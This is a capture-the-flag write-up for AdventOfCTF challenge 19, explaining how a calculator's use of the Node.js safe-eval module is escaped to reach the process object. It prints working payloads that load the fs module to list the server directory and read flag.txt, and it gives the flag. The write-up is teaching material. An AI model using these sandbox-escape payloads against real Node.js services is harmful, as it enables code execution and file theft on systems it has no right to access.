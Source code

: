 +++
author = "Maik de Kruif"
title = "Safe?"
subtitle = "Challenge 19 - AdventOfCTF"
date = 2021-02-25T23:18:28+01:00
description = "A writeup for challenge 19 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/d80f13d1ab714f7864c2a9ef56c5f767.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_19"
]
+++

- Points: 1900

## Description

We found out that it was possible to insert Javascript code in the calculator. Oops! We found an awesome module to prevent against this abuse. Hopefully it is all better now. The flag is in flag.txt.

Visit <https://19.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

The description also states it was possible to enter javascript code, which we saw in the [previous challenge]({{% ref "writeups/adventofctf/2020/challenge_18.md" %}}), but that it has been fixed now.

## Finding the vulnerability

To verify what the description says, let's try to enter `res` in the input field. Sadly, it looks like it actually has been fixed as we now get the following error:

```text
evalmachine.<anonymous>:11
  SAFE_EVAL_521493=res
  ^

ReferenceError: res is not defined
    at evalmachine.<anonymous>:11:3
    at Script.runInContext (vm.js:133:20)
    at Script.runInNewContext (vm.js:139:17)
    at Object.runInNewContext (vm.js:322:38)
    at safeEval (/opt/app/node_modules/safe-eval/index.js:24:6)
    at /opt/app/server.js:13:11
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
```

When looking at this output, we can see that it uses the `safe-eval` module to evaluate the input.

I personally don't know this module so let's Google around a bit. Eventually, I found [this Github Issue](https://github.com/hacksparrow/safe-eval/issues/16#issuecomment-554301596) which talks about safe-eval not being so safe. Exactly what we need.

When scrolling down on the issue, we can see a comment with the following code:

```text
(
delete(this.constructor.constructor),delete(this.constructor),
this.constructor.constructor("return process")()
)
```

_Note: Sorry this code is not highlighted. If I do so, my formatter will mess it up..._

The comment has no further text in it so let's try entering the code. Don't forget to replace the double quotes (`"`) with single ones (`'`) though as, otherwise, the JSON will no longer be valid.

After making the request, the server returns the following string: `[object process]`. This means the code worked, and we can build an exploit on it.

## Exploit

Because we now have the `process` object, we can use it to require modules and execute code.

To read the directory contents of the sever, we can use the following code:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readdirSync('.');
})();
```

_Note: Again, not formatted as my formatter will replace the single quotes with double ones._

In this code, I used the `process` to get the `require` function. I did this so I could get access to the `fs` module to read the directory contents. This, in turn, is all wrapped by a [self-executing anonymous function](https://developer.mozilla.org/en-US/docs/Glossary/Self-Executing_Anonymous_Function) so I could use variables to make it easier.

The above code returns the following output:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Here we see the `flag.txt` file. Now let's read it using the `fs` module again:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readFileSync('flag.txt');
})();
```

## Solution

We got the flag! It is `NOVI{s@fe_eval_is_not_so_saf3}`.
